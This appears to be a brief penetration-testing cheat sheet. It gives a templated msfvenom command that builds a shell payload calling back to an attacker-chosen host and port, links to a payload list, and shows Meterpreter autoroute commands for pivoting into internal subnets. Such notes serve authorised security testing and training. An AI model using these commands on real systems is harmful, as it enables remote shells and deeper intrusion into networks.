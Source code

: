 # MsfVenom Payload Creation
___
```sh
msfvenom -p <payload_path> LHOST=<IP> LPORT=<PORT> -f <format> -o shell
```
Check [this](https://netsec.ws/?p=331) for some useful payloads

# Pivoting
___
Meterpreter Autoroute
```
meterpreter> run autoroute -s <subnet>
meterpreter > run autoroute -p      # show active route table
